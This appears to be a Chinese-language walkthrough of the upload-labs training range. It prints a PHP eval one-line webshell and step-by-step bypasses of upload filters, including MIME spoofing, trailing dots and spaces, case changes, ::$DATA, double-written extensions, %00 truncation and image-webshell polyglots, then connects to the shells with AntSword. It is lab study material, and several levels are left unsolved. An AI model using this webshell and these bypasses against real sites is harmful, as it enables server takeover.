


# 文件上传漏洞  upload-labs靶场合集

## Pass-01 (前端验证)

上传一句话代码的php文件

```
<?php
    @eval($_POST['shell']);
?>
```

将js代码复制到控制台进行修改，强迫调用两次checkFile函数


则文件上传成功，如下：


使用蚁剑连接


原url+文件路径地址，连接密码则是一句话木马里POST中的内容=> shell


可直接查看源文件

## Pass-02(MIME验证)


代码审计：

​	属于MIME验证

​	MIME类型用来设定某种拓展名文件的打开方式，如GIF图片MIME为image/gif,CSS文件为text/css.

考虑使用burpsuite抓包

将php文件先修改成jpg文件，在上传时使用bp拦截，在bp中将后缀修改为php


放包后可以看到上传成功


用蚁剑连接可以看到成功向源文件夹注入了shell.php这个木马


## Pass-03(黑名单验证，特殊后缀)

试探性地上传了shell.php，报错如下


文件被检查了拓展名，存在黑名单，禁止了这四类文件的上传

使用bp抓包，在bp中修改php的后缀名为php1绕过，后`放包`


> 注意：此时文件名更改了


## Pass-04(黑名单验证)


代码审计：

​	很明显是黑名单验证，发现没有过滤掉htaccess文件（可以利用这个）

同样使用bp抓包，利用Windows特性xxx.php. .


蚁剑连接


可以看到我们刚才上传的php文件，说明上传成功

## Pass-05(黑名单验证)


代码审计:

​	发现同样是黑名单，且过滤掉了php\pHp\htaccess等各种后缀的文件

感觉还是可以利用Windows特性绕过黑名单


连接蚁剑，可以看到刚才上传的php文件


## Pass-06


代码审计：

​	依旧是黑名单验证，但是没有strtolower()函数，因此可以利用大小写绕过


连接蚁剑看看：


报错原因不明。。。我也不知道为啥会报错

## Pass-07


代码审计：

​	黑名单验证，但是没有首尾去空

搜到说可以在文件名后面添加一个空格绕过，但是试了一下，不行诶，暂时保留吧

## Pass-08


代码审计：

​	这一关没有用deldot删去末尾的点，因此利用这个漏洞绕过


蚁剑连接:


## Pass-09


代码审计：

​	没有去除字符串的str_ireplace()函数，因此这道题应该是使用::$DATA绕过

**php在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持"::$DATA"之前的文件名 他的目的就是不检查后缀名。**



蚁剑连接：


## Pass-10


代码审计：

​	最后文件上传直接用路径名进行拼接，并且只对文件名进行过滤

​	deldot从后往前删除末尾的点，但是遇到空格会暂停

上传php文件到bp，在进行修改=>shell.php. .

> 构造Payload:../upload/shell.php.  .

再连接蚁剑即可


## Pass-11


代码审计:

​	黑名单验证；str_ireplace函数会过滤掉文件后缀名，替换为空字符串；

利用双写绕过

> 构造Payload: shell.pphphp


上传结果如上，可以看到虽然在bp中改为pphphp，但是后缀还是php

连接蚁剑：

不知道为啥连接蚁剑之后，能连上，但是看不到上传的文件。。。。

## Pass-12


代码审计：

​	白名单验证；利用%00截断可以绕过白名单限制

利用bp抓包


不成功，不知道为啥

## Pass-14


题目已经明确告诉我们要使用文件包含漏洞和图片马，图片包含漏洞的页面就在include.php


代码审计：

​	很简单，参数放在file；

​	这一关会读取前两个字节，@unpack函数用于从二进制中解包数据，且后端会根据上传的文件重命名

补充知识：
1.Png图片文件包括8字节：89 50 4E 47 0D 0A 1A 0A。即为 .PNG。
2.Jpg图片文件包括2字节：FF D8。
3.Gif图片文件包括6字节：47 49 46 38 39|37 61 。即为 GIF89(7)a。
4.Bmp图片文件包括2字节：42 4D。即为 BM。

上传一个图片马

> 图片马生成方法有很多，下面尝试三种图片马，看看能不能都得到同样的结果
>
> 第一种是使用cmd制作图片马




连接成功！！！

> 第二种是直接在图片文字文件中添加一句话木马


保存后直接使用看看

奇怪。。。不行，即便后缀在白名单中，也上传不上去。。。服了

> 也可以使用bp抓包，然后注入一句话木马

也尝试过，还是失败了。。。

## Pass-15


同样类型的题目，也是利用文件包含+图片马解题


代码审计：

​	代码通过getimagesize函数判断图片大小


同样的文件包含界面

上传一个cmd做的png图片马


然而解析失败，蚁剑自然也无法连接上，不知道原因

又尝试了用shshell,jpg这个图片马，发现可以解析？？！！同样被重命名为jpeg图片


连接蚁剑：连接成功


## Pass-16


仍然是图片马+文件包含+文件上传的题目

代码审计：

​	exif_imagetype函数用于判断一个图像的类型，读取一个图像的第一个字节并检查其签名。同样没有限制使用图片马，还是用上面两关的方法通过


解析图片成功后，使用蚁剑连接：


连接失败？？？


